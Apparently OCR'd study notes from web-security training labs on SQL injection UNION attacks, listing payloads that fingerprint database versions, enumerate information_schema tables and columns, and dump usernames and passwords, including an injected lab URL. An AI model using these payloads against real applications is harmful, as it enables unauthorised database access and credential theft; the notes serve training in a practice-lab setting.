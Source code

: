4. Retriveing intresing data
You can use `UNION SELECT` to retrive data from other teables. Lets say that you know about a table called users with column username (string) and password (string):
`' UNION SELECT username, password FROM users--`  
differernt column if you have 3 columns:  
https://0ae900e20408a96d80da3f4100a80014.web-security-academy.net/filter?category=Corporate+gifts' UNION SELECT NULL, username || '~' || password, NULL FROM users--

5. Replacing Original Data with Custom Data:  
- Set the first query to return no results (e.g., `id=0`) and inject custom data:  
Example: `0 UNION SELECT 1,2,3`.

6. Retrieving Database Information:
Querying the database type and version, depends from SQL dialect:

| Database type | Query |
|---------------|-------|
| Microsoft, MySQL | `SELECT @@version`|
| Oracle | `SELECT * FROM v$version` |
| PostgreSQL | `SELECT version()` |

union attack examples: 
`' UNION SELECT @@version--`  
- Get database name (sqli_one):  
`0 UNION SELECT 1,2,database()`.

- List contents of databes:
  **Information schema** rovides information about the database like listing the tables:
`SELECT * FROM information_schema.tables`
You can then query **information_schema.columns** to list the columns in individual tables:
`SELECT * FROM information_schema.columns WHERE table_name = 'Users'`
`' union select table_name,null from information_schema.tables--`
`' union select column_name,null from information_schema.columns where table_name = 'user_mappings'--`
`' union select column_name,null from information_schema.columns where table_name = 'users_zgnigh'--`
`' union select password_maaovt,username_nrdxbj from users_zgnigh--`
  
- Retrieve table names:  
`0 UNION SELECT 1,2,group_concat(table_name) FROM information_schema.tables WHERE table_schema='sqli_one'`.
Example result: `article,staff_users`.

7. Exploring Table Structure:  
- Retrieve column names for the staff_users table:  
`0 UNION SELECT 1,2,group_concat(column_name) FROM information_schema.columns WHERE table_name='staff_users'`.  
Example result: `id,username,password`.
`SELECT * FROM information_schema.columns WHERE table_name = 'Users'`

8. Extracting Sensitive Data:  
- Retrieve usernames and passwords:  
`0 UNION SELECT 1,2,group_concat(username,':',password SEPARATOR '<br>') FROM staff_users`.  
Example result: `admin:admin123<br>martin:password456`.
